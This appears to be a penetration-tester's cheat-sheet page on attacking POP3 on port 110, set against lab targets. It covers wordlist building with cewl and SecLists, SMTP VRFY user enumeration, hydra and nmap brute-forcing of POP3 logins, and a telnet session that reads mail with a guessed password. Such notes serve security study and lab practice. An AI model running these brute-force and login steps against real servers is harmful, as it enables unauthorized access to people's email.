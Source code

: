 # Port 110 - Pop3

Check this port only if you need to prioritize this port to be investigated. Often password bruteforcing is time consuming, so check if you can manually login with a username as username and password and read emails.&#x20;

### Guess username and password

```bash
nmap -sV --script=pop3-brute <target IP address> 
```

### Create (or reuse) username and password list

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># Username
</strong>cewl http://postfish.off/team.html --with-numbers --lowercase  -w userlist.txt
wget https://raw.githubusercontent.com/jseidl/usernamer/master/usernamer.py
python usernamer.py -f users_in_team_page -l >> userlist.txt
cat /usr/share/seclists/Usernames/Names/names.txt >> userlist.txt 

# Password 
cat userlist.txt > password.txt
cat /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt >> password.txt
</code></pre>

### Enumerate users

{% code overflow="wrap" %}
```bash
/usr/share/legion/scripts/smtp-user-enum.pl -U userlist.txt -M VRFY -t 192.168.157.137 -m 64
# -U: user list
# -M: method to use for email verification
# -t: target
# -m: max number of concurrent threads
```
{% endcode %}

### Bruteforce passwords

```bash
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V
hydra -l sales -P userlist.txt -f 192.168.157.137 pop3 -V -t 64
# -l: username
# -P: password list
# -f: force to stop once a password is found
# -V: verbose mode
# -t: the number of threads
```

### POP3 commands

```
USER   	Your user name for this mail server
PASS   	Your password.
QUIT  	 End your session.
STAT   	Number and total size of all messages
LIST   	Message# and size of message
RETR 	message#  Retrieve selected message
DELE 	message#  Delete selected message
NOOP   	No-op. Keeps you connection open.
RSET   	Reset the mailbox. Undelete deleted messages.
```

### Manual login and read emails

```bash
# Login 
>telnet <IP> pop3

+OK beta POP3 server (JAMES POP3 Server 2.3.2) ready                                                                                                          
USER ryuu                                                                                                                                                     
+OK                                                                                                                                                           
PASS ryuu                                                                                                                                                     
+OK Welcome ryuu    

# Retrieve emails
LIST                                                                                                                                                          
+OK 2 1807                                                                                                                                                    
1 786                                                                                                                                                         
2 1021   
	
RETR 1
RETR 2
QUIT
```

###
